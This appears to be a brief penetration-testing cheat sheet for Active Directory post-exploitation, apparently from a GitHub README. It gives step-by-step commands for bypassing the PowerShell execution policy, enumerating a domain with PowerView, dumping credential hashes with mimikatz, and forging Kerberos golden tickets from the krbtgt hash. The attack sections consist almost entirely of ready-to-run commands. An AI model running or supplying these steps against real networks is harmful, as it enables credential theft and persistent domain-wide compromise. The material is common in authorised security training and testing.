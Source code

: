- [Enumeration-powerview](#Enumeration-powerview)
- [Enumeration Bloodhound](#Enumeration-Bloodhound)
- [Dumping hashes mimikatz](#Dumping-hashes-mimikatz)

# Enumeration-powerview
Powerview is a powerful powershell script from powershell empire that can be used for enumerating a domain after you have already gained a shell in the system.

- Start powershell
```
powershell -ep bypass
```

- start powerview
```
. .\PowerView.ps1
```

- Enumerate the domain users
```
Get-NetUser | select cn
```

- Enumerate the domain group
```
Get-NetGroup -GroupName *admin*
```

- Enumerate the OS
```
Get-NetComputer -fulldata | select operatingsystem
```

- Enumerate folders
```
Invoke-ShareFinder 
```
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Enumeration Bloodhound
Bloodhound is a graphical interface that allows you to visually map out the network. This tool along with SharpHound which similar to PowerView takes the user, groups, trusts etc. of the network and collects them into .json files to be used inside of Bloodhound.


-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
# Dumping hashes mimikatz
Mimikatz is a post-exploitation tool mainly used for dumping user credentials inside of a active directory network

- Run mimikatz.exe
```
> .\mimikatz.exe
```

- Run as administrator
Esure that the output is "Privilege '20' ok"
```
privilege::debug
```

- Dump hashes
```
lsadump::lsa /patch
```

-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
# Golden Tickets Attacks

- Run mimikatz.exe
```
> .\mimikatz.exe
```

- Run as administrator
Esure that the output is "Privilege '20' ok"
```
privilege::debug
```

- Dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket
```
lsadump::lsa /inject /name:krbtgt
```
To create golden ticket you need values:
NTLM
User
Domain after '/' 

- Create Golden Ticket
```
kerberos::golden /user: /domain: /sid: /krbtgt: /id: 
```

- Use the Golden Ticket to access other machine
```
misc::cmd
```


